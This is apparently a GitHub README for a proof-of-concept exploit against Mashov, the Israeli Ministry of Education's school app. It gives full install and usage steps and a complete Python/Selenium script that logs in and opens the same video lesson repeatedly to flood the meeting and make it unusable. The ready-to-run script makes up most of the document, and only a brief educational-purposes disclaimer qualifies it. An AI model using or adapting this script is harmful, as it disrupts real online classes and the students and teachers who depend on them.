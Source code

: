 # Mashov App Vulnerability Exploit

## Overview

This project demonstrates a bug/vulnerability found in the Israeli Ministry of Education's app, Mashov. During lockdown times, this app was widely used for online education. The bug allows any user to repeatedly enter the same video meeting room, effectively flooding it and rendering it unusable.

## Proof of Concept (POC)

The POC is written in Python using Selenium to automate the browser actions. The script repeatedly logs into the Mashov app and joins the same video meeting multiple times.

## Requirements

- Python 3.x
- Selenium
- Chrome WebDriver
- Webdriver Manager for Python

## Installation

1. **Clone the repository**:
    ```sh
    git clone <repository_url>
    cd <repository_folder>
    ```

2. **Install dependencies**:
    ```sh
    pip install selenium webdriver-manager
    ```

3. **Download Chrome WebDriver**:
    The WebDriverManager will handle the downloading and setup of the Chrome WebDriver automatically.

## Usage

1. **Run the script**:
    ```sh
    python mashov_exploit.py
    ```

2. **Provide your details**:
    The script will prompt you to enter the following information:
    - **User name**: Your Mashov username.
    - **Password**: Your Mashov password.
    - **Lesson number**: The number of the lesson you want to join.
    - **Number of entries**: How many times you want to enter the lesson.

## Script Details

The script automates the following steps:

1. Open the Mashov login page.
2. Log in with the provided user credentials.
3. Navigate to the lessons menu.
4. Enter the specified lesson multiple times.

Here is the complete POC code:

```python
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.chrome.options import Options
from webdriver_manager.chrome import ChromeDriverManager
import time

def enter_users(user_name, password, NUM_OF_ENTRIES, lesson_number):
    options = Options()
    options.add_experimental_option("detach", True)

    driver = webdriver.Chrome(service=Service(ChromeDriverManager().install()), options=options)

    driver.get("https://web.mashov.info/students/login")
    driver.maximize_window()
    time.sleep(2)

    # Enter login
    driver.find_element('xpath','/html/body/mshv-root/mshv-login/mat-card/mat-tab-group/mat-tab-header/div/div/div/div[2]/span[2]/span').click()
    time.sleep(1)
    driver.find_element('xpath','/html/body/mshv-root/mshv-login/mat-card/mat-tab-group/div/mat-tab-body[2]/div/div/button/span[2]').click()
    time.sleep(1)

    # Login details
    driver.find_element('xpath','/html/body/section/div[1]/div[3]/div[1]').click()
    # User name
    driver.find_element('xpath', '/html/body/section/div[1]/div[3]/form/fieldset/input[2]').send_keys(user_name)
    # Password
    driver.find_element('xpath', '/html/body/section/div[1]/div[3]/form/fieldset/span/input[4]').send_keys(password)
    # Send details
    driver.find_element('xpath','/html/body/section/div[1]/div[3]/form/fieldset/button').click()
    time.sleep(2)
    driver.find_element('xpath', '/html/body/mshv-root/mshv-login/mat-card/mat-tab-group/div/mat-tab-body[2]/div/div/button').click()
    time.sleep(2)

    # Enter the lessons menu
    driver.find_element('xpath', '/html/body/mshv-root/mshv-main/mat-sidenav-container/mat-sidenav/div/mshv-main-menu/ul/li[26]/button/span[2]/div').click()
    p = driver.current_window_handle

    for i in range(NUM_OF_ENTRIES):
        time.sleep(0.2)
        # Switch to main tab
        driver.switch_to.window(p)
        # Enter the selected lesson
        driver.find_element('xpath' ,f'/html/body/mshv-root/mshv-main/mat-sidenav-container/mat-sidenav-content/mshv-student/mshv-student-bbb/mat-card[2]/mat-nav-list/a[{lesson_number}]').click()

def main():
    """
    Provide your details:
    User name and password from משרד החינוך
    Lesson number
    Entry amount
    """
    user_name = input('Enter your user name: ')
    password = input('Enter your password: ')
    lesson_number = input('Enter your lesson number: ')
    NUM_OF_ENTRIES = int(input('Enter number of entries: '))
    enter_users(user_name, password, NUM_OF_ENTRIES, lesson_number)

if __name__ == '__main__':
    main()
```

## Disclaimer

This project is intended for educational purposes only. Exploiting vulnerabilities in any system without proper authorization is illegal and unethical. If you discover a vulnerability, please report it responsibly to the affected organization.
